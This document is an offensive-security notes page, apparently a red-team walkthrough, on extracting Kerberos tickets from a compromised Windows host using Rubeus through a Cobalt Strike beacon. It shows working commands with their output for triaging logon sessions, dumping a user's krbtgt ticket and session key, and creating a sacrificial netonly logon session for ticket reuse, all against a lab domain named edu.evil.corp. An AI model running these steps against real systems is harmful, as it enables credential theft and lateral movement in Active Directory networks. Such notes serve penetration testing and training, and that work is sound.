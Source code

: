 ## Extract Kerberos Tickets
1. Make sure the Service is krbtgt/domain and note down the LUID
``````Rubeus
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe triage

Action: Triage Kerberos Tickets (All Users)

[*] Current LUID    : 0x3e7

 ------------------------------------------------------------------------------
| LUID     | UserName                     | Service                                       | EndTime               |
 ------------------------------------------------------------------------------
 | 0x462eb | doe @ edu.evil.corp    | krbtgt/edu.evil.corp                      | 5/12/2022 12:34:03 AM |
 | 0x25ff6 | john @ edu.evil.corp  | krbtgt/edu.evil.corp                      | 5/12/2022 12:33:41 AM |
 ------------------------------------------------------------------------------
 ``````
2. Extract the ticket
``````beacon
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe dump /service:krbtgt /luid:0x462eb /nowrap

[*] Target service  : krbtgt
[*] Target LUID     : 0x462eb
[*] Current LUID    : 0x3e7

  UserName                 : doe
  Domain                   : EDU
  LogonId                  : 0x462eb
  UserSID                  : S-1-5-21-3263068140-2042698922-2891547269-1122
  AuthenticationPackage    : Kerberos
  LogonType                : Interactive
  LogonTime                : 5/11/2022 2:34:03 PM
  LogonServer              : DC-2
  LogonServerDNSDomain     : edu.evil.corp
  UserPrincipalName        : doe@edu.evil.corp

 ServiceName           :  krbtgt/edu.evil.corp
 ServiceRealm          :  edu.evil.corp
 UserName              :  doe
 UserRealm             :  edu.evil.corp
 StartTime             :  5/11/2022 2:34:03 PM
 EndTime               :  5/12/2022 12:34:03 AM
 RenewTill             :  5/18/2022 2:34:03 PM
 Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
 KeyType               :  aes256_cts_hmac_sha1
 Base64(key)           :  oh0gqFF8D81ijGlce+jyc0yMtHYaDrl8AM0b4+BqO8E=
 Base64EncodedTicket   :

 [...ticket...]
``````
3. Create a sacrificial logon session or use 
``````beacon
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe

[*] Action: Create Process (/netonly)
[*] Showing process : False
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4872
[+] LUID            : 0x92a8c
``````